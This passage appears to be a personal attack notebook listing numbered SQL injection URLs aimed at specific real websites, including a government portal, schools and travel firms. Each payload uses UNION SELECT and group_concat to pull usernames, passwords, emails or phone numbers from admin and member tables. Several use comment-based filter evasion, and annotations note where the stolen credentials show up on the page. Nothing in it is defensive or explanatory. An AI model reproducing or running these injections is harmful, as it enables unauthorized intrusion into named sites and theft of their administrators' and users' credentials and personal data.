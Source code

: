 34. https://www.ntcm.com.ph/cadet-program.php?id=-9%27%20union%20select%201,2,group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27),4,5,6,7,8,9%20from%20user--+

35. http://tibarose.com/social-project.php?lang=esp&id=-222%20/*!12345union*/%20/*!12345select*/%201,2,3,4,5,6,/*!12345group_concat(username,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27)*/%20/*!12345from*/%20members--

36. http://www.bethanyashram.net/institution.php?id=-4%27%20/*!12345union*/%20/*!12345select*/%201,2,3,/*!12345unhex(hex(group_concat(uname,0x3a3a,pwd,%20%27%3Cbr%3E%27)))*/,5%20/*!12345from*/%20login--+

37. https://www.knowledgekingdom.com.jo/english/program.php?id=-2021%27%20/*!12345union*/%20/*!12345select*/%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,/*!12345unhex(hex(group_concat(AIC_REG_MOBILE,0x3a3a,AIC_REG_EMAIL,%20%27%3Cbr%3E%27)))*/,71,72,73,74%20/*!12345from*/%20REGISTRATIONS--+

38. http://ksgroupcolleges.com/gallery.php?id=-6%27%20union%20select%201,group_concat(user,0x3a3a,pass,0x3a3a,email),3,4%20from%20admin--+
	<mark style="background: #FF5582A6;">(user va pass va email in picture tab)
</mark> 

39. http://www.mudp.gov.bd/photo-gallery.php?id=-18%20union%20select%201,2,3,4,group_concat(username,0x3a3a,password)%20from%20membership--
	<mark style="background: #FF5582A6;">(user va pass in picture tab)</mark> 

40. https://www.pacificsymphony.org/photo-gallery.php?id=-67%27%20union%20select%20group_concat(admin_email,0x3a3a,admin_user,0x3a3a,admin_pass)%20from%20administrators--+

	with : [[5-Source (Method)]]

41. https://www.cherishexpeditions.com/program.php?id=-1%20union%20select%201,group_concat(username,0x3a3a,pw,%20%27%3Cbr%3E%27),3,4,5,6,7,8%20from%20admin--&type=2
	<mark style="background: #FF5582A6;">(important table found in source)</mark> 

42. http://www.4remedy.com/travel.php?id=-Travel%20India%27%20union%20select%201,2,3,4,group_concat(emailid,0x3a3a,password,%20%27%3Cbr%3E%27),6,7,8,9,10,11,12%20from%20administrator--+

43. https://www.fidaato.in/vatsalya/news.php?id=-24%27%20union%20select%201,unhex(hex(group_concat(name,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27))),3%20from%20vatsalya_ch_a_cli_nil--+

	with : [[7-Like (Method)]]

44. http://www.riyadhtravel.net/travel.php?id=-6%27%20/*!12345union*/%20/*!12345select*/%201,2,3,username,5,6,7,8,9,10,11,12,13%20from%20admin--+

	http://www.riyadhtravel.net/travel.php?id=-6%27%20/*!12345union*/%20/*!12345select*/%201,2,3,password,5,6,7,8,9,10,11,12,13%20from%20admin--+
	
	with : [[9-Version 4]]

45. view-source:https://m.lok1lok.com/img.php?id=-145%20union%20select%20111,222,333,444,555,unhex(hex(group_concat(username,0x3a3a,phone,0x3a3a,email,0x3a3a,password))),777,888,999,10,11,12,13,14,15%20from%20tbl_member--

# <mark style="background: #FFB86CA6;">The Following Sites Don't Have An Admin Panel Or An Important Table :</mark> 
